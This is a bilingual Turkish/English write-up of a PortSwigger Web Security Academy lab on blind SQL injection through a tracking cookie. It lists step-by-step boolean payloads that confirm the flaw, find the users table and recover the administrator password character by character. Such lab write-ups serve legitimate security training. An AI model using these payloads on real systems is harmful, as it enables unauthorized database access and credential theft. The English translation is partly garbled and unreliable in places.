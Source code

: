 # BlindSQLi
Portswigger -> Web Security Academy -> SQL Injection -> Blind

->Portswigger platformu; içerisinde bulunan Web Security ve daha bir çok alandaki eğitimlere ücretsiz erişim hakkı tanımaktadır.
->Bunun yanında üretmiş oldukları çok fonksiyonlu BurpSuit aracının sektör açısından önemi yadsınamaz.
->Bu proje Portswigger -> Web Security Academy -> SQL Injection -> Blind -> Lab11 için çözüm adımlarını içermektedir.
->BurpSuit'in Community Edition sürümü kullamılmıştır.
_________________________________________________________________________________________________________________________________

# BlindSQLi
Portswigger -> Web Security Academy -> SQL Injection -> Blind

->Portswigger platform; Free access to trainings in Web Security and many other areas is provided.
->In addition, it is undeniable to demonstrate the performance of the multifunctional BurpSuit vehicles that I have produced.
->This project contains the solution steps for Portswigger -> Web Security Academy -> SQL Injection -> Blind -> Lab11.
->Community Edition of BurpSuit is used.




                                <---Portswigger -> Web Security Academy -> SQL Injection -> Blind -> Lab11--->
                                ______________________________________________________________________________
                                
 
Blind SQLi

Zaafiyet Parametresi - Cookie

Hedefler:

1-) Admin şifresini numaralandır.

2-) Admin olarak giriş yap.

Öncelikle bir zaafiyetin tespiti ardından sömürülmesi gerektiğini biliyoruz. Bu sebeple ilk adımımız zaafiyet bulunduğu belirtilen Cookie üzerinden doğru/yanlış sorgular yaparak zaafiyetin varlığından emin olmamız gerekmekte.
Çözüm boyunca "Welcome back" sonucu aldığımız her sorgulama doğrulama yapmış olduğumuz anlamına gelmektedir. Eğer Response alanında bu veriyi göremiyorsak ya yaptığımız uygulamada yanlışlık vardır ya da olumsuz dönüş alıyoruzdur.
_______________________________________________________________________________________________________________________________________________________________________

Analiz:

1-) Zaafiyetin doğru olup olmadığının kontrolü.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl'
-> Eğer bu işlem işe yararsa -> dönüş doğru olacak -> Welcome back message
-> Eğer bu işlem işe yaramazsa -> dönüş olmayacak -> No Welcome back message

Sql tarafında çalıştırıldığını tahmin edebileceğimiz sorguları hayal etmemiz ve deneme yanılma yolu ile doğruluğunu tespit etmemiz gerekli.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and 1=0--'
->Yanlış -> No Welcome back

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and 1=1--'
-> Doğru -> Welcome back


_______________________________________________________________________________________________________________________________________________________________________


2-) Bir Kullanıcı Tablosu Olup Olmadığını Kontrol Et

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select 'x' from users LIMIT 1)='x'--'
-> users tablosu databasede mevcut.

_______________________________________________________________________________________________________________________________________________________________________


3-) Admin kullancısının Users tablosunda olup olmadığını kontrol et.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select username from users where username='administrator')='administrator'--'
-> Admin kullanıcısı databasedeki users tablosunda mevcut.

_______________________________________________________________________________________________________________________________________________________________________


4-) Admin şifresinin numaralandır.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select password from users where username='administrator')='Welcome2021!'--'
-> Kaba kuvvet saldırı gibi olduğundan mantıklı bir sorgu olmayıp istediğimiz sonucu vermeyecektir.

*Öncelikle password uzunluğunu bulmamız lazım.
select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select username from users where username='administrator' and LENGTH (password)>20)='administrator'--' ///->20 değerine kadar denemeler yapılabilir ancak
BurpSuit yardımı ile de kolaylıkla bulunması mümkün.
->Şifre uzunluğu 20 karakter.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select substring(password,2,1) from users where username='administrator')='a'--'

123456789 10 11 12 13 14 15 16 17 18 19 20
a1g2k2v3f  j  r  a  w  y  z  y  6  t  l  9


***********************************************************************************************************************************************************************


Goals:

1-) Number the admin password.

2-) Login as admin.

We know that first of all, a vulnerability must be detected and then exploited. For this reason, our first step is to make sure that the vulnerability exists by making correct/false queries on the Cookie, which is stated to be vulnerable.
Every query we get a "Welcome back" result throughout the solution means that we have verified. If we cannot see this data in the Response field, either there is an error in our application or we receive a negative response.

_______________________________________________________________________________________________________________________________________________________________________

Analysis:

1-) Checking whether the vulnerability is correct.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl'
-> If this works -> return will be correct -> Welcome back message
-> If this doesn't work -> no return -> No Welcome back message

We need to imagine the queries that we can guess to be run on the SQL side and determine their accuracy by trial and error.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and 1=0--'
->False -> No Welcome back

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and 1=1--'
-> Correct -> Welcome back

_______________________________________________________________________________________________________________________________________________________________________


2-) Check if there is a User Table

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select 'x' from users LIMIT 1)='x'--'
-> users table exists in database.

_______________________________________________________________________________________________________________________________________________________________________


3-) Check if the Admin user is in the Users table.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select username from users where username='administrator')='administrator'--'
-> The admin user exists in the users table in the database.

_______________________________________________________________________________________________________________________________________________________________________


4-) Number of the admin password.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select password from users where username='administrator')='Welcome2021!'--'
-> Since it is like a brute force attack, it is not a logical query and will not give the result we want.

*First we need to find the password length.
select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select username from users where username='administrator' and LENGTH (password)>20)='administrator'--' 
///-> Attempts up to 20 can be done but It can be easily found with the help of BurpSuit.
->Password length 20 characters.

select tracking.id from tracking.table where trackingId= 'Gw7uThB7J9IIhYBl' and (select substring(password,2,1) from users where username='administrator')='a'--'

123456789 10 11 12 13 14 15 16 17 18 19 20
a1g2k2v3f  j  r  a  w  y  z  y  6  t  l  9

